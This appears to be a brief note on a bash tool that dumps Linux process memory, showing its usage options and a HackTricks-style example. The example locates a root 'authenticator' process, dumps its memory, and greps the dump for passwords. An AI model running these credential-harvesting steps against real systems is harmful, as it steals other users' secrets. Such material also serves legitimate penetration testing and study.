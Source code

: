 --------------------

https://github.com/hajzer/bash-memory-dump

memory_dump.sh

memory_dump2.sh - Without Color for not has $TERM variable(terminal variable) where is Linux machines.

Usage

Usage: memory-dump.sh [options]
       -p PID              Dump memory region of the process which is specified by PID.
       -m MEMORY_REGION    Dump memory region of process (stack, heap, anon, all).
       -d DUMP_METHOD      Dump memory method for dumping (gdb, dd).
       -v                  Show script version.

-------------------

It can be use password extraction from process at Linux enviroments.


https://book.hacktricks.xyz/linux-unix/privilege-escalation#credentials-from-process-memory

Manual example

If you find that the authenticator process is running:

ps -ef | grep "authenticator"
root      2027  2025  0 11:46 ?        00:00:00 authenticator

You can dump the process (see before sections to find different ways to dump the memory of a process) and search for credentials inside the memory:

./dump-memory.sh 2027
strings *.dump | grep -i password

-------------------
